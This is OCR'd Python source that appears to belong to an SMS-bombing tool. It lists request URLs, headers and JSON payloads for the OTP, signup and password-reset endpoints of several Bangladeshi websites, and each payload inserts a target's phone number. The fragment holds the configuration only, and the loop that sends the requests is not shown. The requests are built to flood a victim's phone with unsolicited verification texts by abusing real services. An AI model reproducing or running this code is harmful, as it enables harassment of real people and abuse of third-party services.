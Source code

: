 
url14 = "https://www.walcart.com/easylogin/account/mobilecheck/"

headers14 = CaseInsensitiveDict()
headers14["X-Requested-With"] = "XMLHttpRequest"
headers14["Content-Type"] = "application/x-www-form-urlencoded"

data14 = "mobile=0"+number+"&is_login=true&forgetpass=false"
url15 = "https://themallbd.com/api/auth/otp_login"

headers15 = CaseInsensitiveDict()
headers15["Content-Type"] = "application/json"

data15 = '{"phone_number":"+880'+number+'"}'
url16 = "https://api.ghoorilearning.com/api/auth/signup/otp?_app_platform=web"

headers16 = CaseInsensitiveDict()
headers16["Host"] = "api.ghoorilearning.com"
headers16["Origin"] = "https://ghoorilearning.com"
headers16["Referer"] = "https://ghoorilearning.com/"
headers16["Content-Type"] = "application/json"

data16 = '{"name":"asad","mobile_no":"0'+number+'","password":"WzfTW4Cecz7NjAm","confirm_password":"WzfTW4Cecz7NjAm"}'
url17 = "https://api.wholesalecart.com/v2/user/login-register"

headers17 = CaseInsensitiveDict()
headers17["Accept-Encoding"] = "gzip, deflate, br"
headers17["Accept-Language"] = "en-US,en;q=0.5"
headers17["Connection"] = "keep-alive"
headers17["Content-Length"] = "75"
headers17["Content-Type"] = "application/json"
headers17["Host"] = "api.wholesalecart.com"
headers17["Origin"] = "https://wholesalecart.com"
headers17["Referer"] = "https://wholesalecart.com/login"
headers17["User-Agent"] = "Mozilla/5.0 (X11; Linux x66_64; rv:76.0) Gecko/20100101 Firefox/76.0"

data17 = '{"phone":"0'+number+'","platform":"google","url":"https://www.google.com/"}'

url18 = "https://moveon.com.bd/api/v1/customer/auth/phone/request-otp"

headers18 = CaseInsensitiveDict()
headers18["Content-Type"] = "application/json"

data18 = '{"phone":"0'+number+'"}'
url19 = "https://app.ipay.com.bd/api/v1/signup/v2"

headers19 = CaseInsensitiveDict()
headers19["Content-Type"] = "application/json"

data19 = '{"accountType":1,"deviceId":"mobile-android-SM-N971N-a23e77d4428c3d91","mobileNumber":"+880'+number+'"}'
url20 = "https://admission.ndub.edu.bd/api/users/reset/"

headers20 = CaseInsensitiveDict()
headers20["Content-Type"] = "application/json"

data20 = '{"phone": "0'+number+'"}'
